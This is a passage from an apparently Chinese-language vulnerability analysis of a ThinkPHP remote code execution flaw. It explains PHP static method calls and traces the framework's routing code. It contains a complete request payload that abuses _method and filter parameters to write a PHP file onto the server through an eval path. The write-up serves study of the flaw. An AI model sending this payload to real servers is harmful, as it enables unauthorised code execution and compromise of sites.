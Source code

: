 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01507070c77f52649f.png)

原因在于:php里面使用双冒号调用方法或者属性时候有两种情况：

直接使用::调用静态方法或者属性

::调用普通方法时，需要该方法内部没有调用非静态的方法或者变量，也就是没有使用`$this`，这也就是为什么输出了`name`的值而没有输出`height`

了解上面这些，我们就可以开始下面的分析



## 0x03.分析

先放上流程图（本人比较菜鸡 所以只能用这种方法记录下来流程）

[![](https://p4.ssl.qhimg.com/t0109212b3bddfaec66.png)](https://p4.ssl.qhimg.com/t0109212b3bddfaec66.png)

首先放上payload

```
path=&lt;?php file_put_contents('ccc.php','&lt;?php phpinfo();?&gt;'); ?&gt;&amp;_method=__construct&amp;filter[]=set_error_handler&amp;filter[]=self::path&amp;filter[]=\think\view\driver\Php::Display&amp;method=GET
```

### <a class="reference-link" name="payload%E7%9A%84%E5%88%86%E6%9E%90"></a>payload的分析

使用`file_put_contents()`写入，使用变量覆盖将`_method`的值设置为`_construct`，这里的`set_error_handler`是设置用户自定义的错误处理程序，能够绕过标准的php错误处理程序，接下来就是调用**\think\view\driver\Php**下面的`Display`方法，因为我们要利用里面的

```
eval('?&gt;' . $content);
```

完成RCE的目的

[![](https://p0.ssl.qhimg.com/t012c9573dbb0edb11d.jpg)](https://p0.ssl.qhimg.com/t012c9573dbb0edb11d.jpg)

虽然会报错，但是不影响写入

[![](https://p4.ssl.qhimg.com/t01ad38b624744b2f00.png)](https://p4.ssl.qhimg.com/t01ad38b624744b2f00.png)

首先从App.php开始，在routeCheck方法处打断点

```
public static function routeCheck($request, array $config)
`{`
    $path   = $request-&gt;path();
    $depr   = $config['pathinfo_depr'];
    $result = false;
    // 路由检测
    $check = !is_null(self::$routeCheck) ? self::$routeCheck : $config['url_route_on'];
    if ($check) `{`
        // 开启路由
        if (is_file(RUNTIME_PATH . 'route.php')) `{`
            // 读取路由缓存
            $rules = include RUNTIME_PATH . 'route.php';
            if (is_array($rules)) `{`
                Route::rules($rules);
            `}`
        `}` else `{`
            $files = $config['route_config_file'];
            foreach ($files as $file) `{`
                if (is_file(CONF_PATH . $file . CONF_EXT)) `{`
                    // 导入路由配置
```